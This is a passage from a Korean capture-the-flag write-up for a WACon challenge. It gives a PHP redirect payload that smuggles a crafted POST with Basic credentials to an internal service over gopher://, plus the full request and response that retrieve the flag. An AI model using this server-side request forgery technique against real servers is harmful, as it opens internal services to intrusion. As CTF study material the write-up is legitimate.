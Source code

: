 ```php
<?php 
header("Location: gopher://127.0.0.1:80/_POST%20/internal_1d607d2c193b.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0AAccept:%20application/gopher%0D%0AAuthorization:%20Basic YWRtaW46V0FDb257VHJ5X3VzaW5nX0dvcGhoaGhlcg==%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%207%0D%0A%0D%0Aasd=asd"); 
?>
```

그리하여 마지막으로 요청을 보내보면 아래와 같다. (요기서 요청 IP는 gopher Redirection을 사용한 내 서버다)

```
[ Request ]
POST /index.phtml?fun_004ded7246=load HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744; USER=admin; X-TOKEN=9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4; 
X-HTTP-Host-Override: 127.0.0.1

url=http://118.67.129.97

[ Response ]
HTTP/1.1 200 OK
...

</form>
HTTP/1.1 200 OK
Date: Sun, 26 Jun 2022 14:55:25 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 135
Content-Type: text/html; charset=UTF-8

<main role="main" class="container">
<h1 class="mt-5">DEBUG ?</h1>
<p class="lead">Hello admin</br>PART 2 FLAG: _ffabcdbc} </p>
</main>
```

Flag : WACon{Try_using_Gophhhher_ffabcdbc}
